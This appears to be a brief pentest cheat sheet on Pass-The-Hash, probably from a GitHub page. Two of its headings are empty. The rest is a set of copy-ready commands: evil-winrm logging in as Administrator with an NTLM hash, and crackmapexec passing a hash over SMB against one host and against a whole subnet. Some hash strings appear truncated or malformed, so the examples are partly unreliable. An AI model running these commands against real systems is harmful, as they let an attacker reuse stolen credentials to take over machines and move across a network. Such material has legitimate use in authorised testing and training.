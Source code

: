 # Pass-The-Hash

## PTH Tools



## Impacket



##  Evil-WinRM

Evil-WinRM Pass The Hash:

```bash
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d3372a07ceea6'
```

## Crackmapexec

Pass The Hash against the target:

```bash
cme smb 172.16.157.25 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4fa6e8d9f4a61100e51' --local-auth
```

Pass The Hash against subnet:

```bash
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4fa6e8d9f4a61100e51' --local-auth
```

